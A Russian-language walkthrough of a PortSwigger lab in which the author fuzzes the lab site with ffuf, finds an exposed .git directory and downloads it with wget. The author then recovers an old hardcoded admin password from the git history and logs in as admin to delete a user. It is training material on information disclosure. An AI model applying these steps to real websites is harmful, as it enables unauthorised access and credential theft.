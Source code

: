 ```yaml
---
title: "Information disclosure in version control history"
date: 2025-07-10
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history"
classes: wide
---
```


В лабораторной работе можно получить доступ к системе контроля версий git и извлечь из нее данные для входа в учетную запись администратора.

Для решения нужно залогиниться от лица админа и удалить пользователя `carlos`.

```
https://0a3f00d5049e908f80d1448300ca0041.web-security-academy.net
```

## Solution

Осмотрю сайт. Попробую залогиниться с постоянными кредами в лабах `PortSwigger` — `wiener`:`peter`, хоть их нам и не дали. Успех ~~взломал, получается~~

![IMG](/assets/images/PortSwigger/IMG_Information_disclosure_in_version_control_history/1.png){: height="200" .align-center}

Ладно, пойду запускать `ffuf`:

```bash
cu63:~/ $ ffuf -u https://0a3f00d5049e908f80d1448300ca0041.web-security-academy.net/FUZZ -w ~/wordlists/common.txt                                                                                                                                                                                                                                               [17:04:24]

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a3f00d5049e908f80d1448300ca0041.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /Users/cu63/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 236ms]
.git/config             [Status: 200, Size: 157, Words: 14, Lines: 9, Duration: 296ms]
.git/index              [Status: 200, Size: 225, Words: 2, Lines: 3, Duration: 243ms]
.git/logs/              [Status: 200, Size: 548, Words: 152, Lines: 19, Duration: 324ms]
.git                    [Status: 200, Size: 1201, Words: 256, Lines: 27, Duration: 371ms]
ADMIN                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 69ms]
Login                   [Status: 200, Size: 3192, Words: 1315, Lines: 64, Duration: 71ms]
Admin                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 81ms]
admin                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 157ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 62ms]
:: Progress: [1437/4686] :: Job [1/1] :: 54 req/sec :: Duration: [0:00:25] :: Errors: 0 ::
```

Сразу интересно) Пойду смотреть файлы `.git`:

![IMG](/assets/images/PortSwigger/IMG_Information_disclosure_in_version_control_history/2.png){: height="200" .align-center}

Вот такое нашел в логах:

![IMG](/assets/images/PortSwigger/IMG_Information_disclosure_in_version_control_history/3.png){: height="200" .align-center}

Скачаю директорию `.git` к себе на комп:

```bash
wget -r https://0a3f00d5049e908f80d1448300ca0041.web-security-academy.net/.git
```

Зайду в эту папку и введу следующую команду:

```bash
git restore .
```

Я смог восстановить файлы:

![IMG](/assets/images/PortSwigger/IMG_Information_disclosure_in_version_control_history/4.png){: height="200" .align-center}

Попробу посмотреть логи изменений через `git show`:

![IMG](/assets/images/PortSwigger/IMG_Information_disclosure_in_version_control_history/5.png){: height="200" .align-center}

Можно увидеть, что пароль `9fpnrxua13e5nx90y6kf` раньше был захардкожен, а теперь берется из `env`. Но я все равно его достал. Бегом в ЛК, пока не спалили)

![IMG](/assets/images/PortSwigger/IMG_Information_disclosure_in_version_control_history/6.png){: height="200" .align-center}

Удалил пользователя, а значит лаба решена)

![IMG](/assets/images/PortSwigger/IMG_Information_disclosure_in_version_control_history/7.png){: height="200" .align-center}